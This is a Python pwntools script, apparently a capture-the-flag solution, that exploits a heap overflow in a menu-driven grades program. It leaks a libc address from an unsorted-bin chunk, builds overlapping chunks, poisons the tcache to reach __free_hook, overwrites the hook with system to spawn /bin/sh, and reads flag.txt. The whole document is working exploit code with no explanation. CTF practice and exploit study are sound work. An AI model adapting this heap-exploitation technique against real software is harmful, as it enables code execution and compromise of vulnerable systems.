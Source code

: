 ```python
  r.sendlineafter(">", "1")
  r.sendlineafter("(1-100)", str(weight))
  r.sendlineafter("category?", str(grades))
  CATEGORY += 1
  return CATEGORY

def write(idx, size, grades=b""):
  r.sendlineafter(">", "2")
  r.sendlineafter("(1-16)", str(idx))
  r.recvuntil("(n to keep")
  if size:
    r.sendline(str(size))
  else:
    r.sendline("n")
  for grade in grades:
    r.sendline(str(grade))

def view():
  r.sendlineafter(">", "3")

# set up chunks
overflow = add(1, 24)   # 24 means 0 padding
evil = add(1, 20)       # change the size of this...
victim = add(1, 20)     # ...to overwrite this

# get leek
unsorted = add(1, 2048)         # add chunk of unsorted size
add(1, 20)                      # prevent consolidation
write(unsorted, 1, b"\x41"*2)   # free the unsorted chunk
unsorted = add(1, 8)            # get chunk from unsorted
view()                          # deets!

r.recvuntil(f"Category #{unsorted}:")
r.recvuntil("Grades: ")

convert = lambda x: int(x).to_bytes(byteorder="little", length=1, signed=True)
leak = b''.join(map(convert, r.recvline().split(b", ")))
libc.address = u64(leak) - 0x3ebca0
log.info(f"{libc.address:x}")

# overflow first chunk to get overlapping chunks
write(overflow, 0, b"\x41"*24+b"\x91")  # overflow first chunk to set evil's size to 0x90
write(victim, 0x38, b"\x41"*0x39)       # free the victim and put new chunk somewhere else

# tcache poison
payload = b"\x41"*24 + b"\x21" + b"\x00"*7 + p64(libc.sym["__free_hook"]-8)
payload += b"\x00"*(0x89-len(payload))
write(evil, 0x88, payload)
# get victim back
add(1, 20)
# get free_hook
free_hook = add(1, 15)
write(free_hook, 0, b"/bin/sh\x00"+p64(libc.sym["system"]))
write(free_hook, 1)

# deets!
r.clean()
r.sendline("cat flag.txt")
print(r.recvline())
#r.interactive()
```
